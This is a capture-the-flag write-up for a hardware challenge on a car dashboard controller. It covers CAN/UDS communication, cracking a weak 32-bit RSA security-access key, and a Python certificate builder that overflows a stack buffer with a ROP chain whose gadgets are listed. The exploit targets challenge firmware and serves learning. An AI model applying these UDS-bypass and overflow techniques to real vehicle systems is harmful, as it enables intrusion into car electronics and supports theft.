

## Climate Controller Catastrophe  (750)

### Description

Catting cars is a major issue these days. It's impossible to sell your stolen car as a whole, so you sell it in parts. Dashboard computers are popular since they break quite often ;-).

Unfortunately, the dashboard computer is paired with the main computer. So, simply exchanging it will not do the trick. In fact, without the handshake to the main computer it will not operate the climate control buttons.

Of course just pairing the dashboard computer isn't cool enough, try to smash the stack instead! We suspect the device isn't using the serial interface for its pairing algorithm.

In addition to the attached challenge and reversing binaries, you're provided a special "challenge" which you can flash to wipe the EEPROM of your dashboard computer.

### Write-up

Challenge with maximum points, in some way it wasn't too hard, just amount of code was greater then previous challenges.

This time we have firmware with CAN controllers which is communicated by SPI bus with MCU, for better understanding SPI intercommunication we can use this repository of similar [CAN library](https://github.com/coryjfowler/MCP_CAN_lib), unfortunately  I wasn't able to find exact CAN lib in open source, looks like developers used own library.

For communication by CAN bus we used Arduino Uno, CAN shield with mcp2515 chip and [CAN bus lib](https://github.com/Seeed-Studio/CAN_BUS_Shield).
Small Arduino sketch was forwarding messages between CAN and Serial interface and python script responsible for processing multi CAN packets.


Among firmware modules you can identify SHA256 algo, HMAC-SHA256, EC routine, but you don't need to look deep inside of all mentioned above. As I discovered a little bit lately firmware handlers implements standard [UDS](https://en.wikipedia.org/wiki/Unified_Diagnostic_Services) service, also nice cheatsheet available [here](https://automotive.softing.com/fileadmin/sof-files/pdf/de/ae/poster/UDS_Faltposter_softing2016.pdf). For transmitting data larger than 8 byte, OBD2 and UDS utilize additional protocol, which is well described by links abouve.

Current firmware is using 3 UDS services:

 - 0x27 Security Access - challenge/response authentication mechanism which you need to pass before accessing other services. Current implementation is using RSA scheme with weak key length (32 bits), 31337 public exponent and 2777704703 module, which can be easily factorized by any online tool, using primes we calculate private exponent 690033473. During authentication we receive challenge, encrypt it using private exponent and send back.

 - 0x31 Routine Control - service command in case of receiving "014301" value resets stored shared secret to all 0xFF values.

 - 0x3d Write Memory By Address - service command, which allows overwrite range of address in NVM memory, where EC certificate is located (in case of something goes wrong, challenge contains additional firmware for wiping NVM memory, it will be useful for "unbricking" your board).

Next let's look startup routine, after printing "Initializing..." firmware initialize shared secret (HMAC key), if it set to 0xFF additional parsing of stored EC certificate is done. During parsing (function at 0x6297) some size checks are missing which allows us to overflow stack buffer and overwrite return pointer, all we need to do is make special certificate, store it to NVM and reset the board.

```python
def gen_cert(rop_payload):
    cert_name="1"
    cert_name="\x80"+chr(len(cert_name))+cert_name
    curve_name="\x00"*(108)+rop_payload
    curve_name="\x81"+chr(len(curve_name))+curve_name
    magic="3"
    magic="\x82"+chr(len(magic))+magic
    key="4"*0x31
    key="\x83"+chr(len(key))+key
    sig="5"*0x20
    sig="\x84"+chr(len(sig))+sig
    cert=cert_name+curve_name+magic+key+sig
    cert="\x30"+chr(len(cert))+cert
    return cert
```

Before printing the flag there is additional masking which we need to turn off, for this purpose we can use such rop gadgets:

    ROM:4C68    ser     r24
    ROM:4C69    pop     r0
    ROM:4C6A    pop     r29
    ROM:4C6B    pop     r28
    ROM:4C6C    ret

    ROM:8BB2    sts     flag_mask, r24
    ROM:8BB4    pop     r0
    ROM:8BB5    pop     r29
    ROM:8BB6    pop     r28
    ROM:8BB7    ret

    ROM:925D    pop     r17     #set 0x7212 - print_serial()
    ROM:925E    pop     r16
    ROM:925F    ret

    ROM:9259    mov     r24, r17 # pass 0x7212 to flag_print()
    ROM:925A    mov     r25, r16
    ROM:925B    pop     r29
    ROM:925C    pop     r28
    ROM:925D    pop     r17
    ROM:925E    pop     r16
    ROM:925F    ret

    ROM:8BB8    print_flag:
    ROM:8BB8    push    r28
    ...
    ROM:8BF0    ret

NOTE: Return pointers on XMEGA is stored as 3 bytes in Big Endian.

If everything is correct you will see your flag after "Initializing" message:


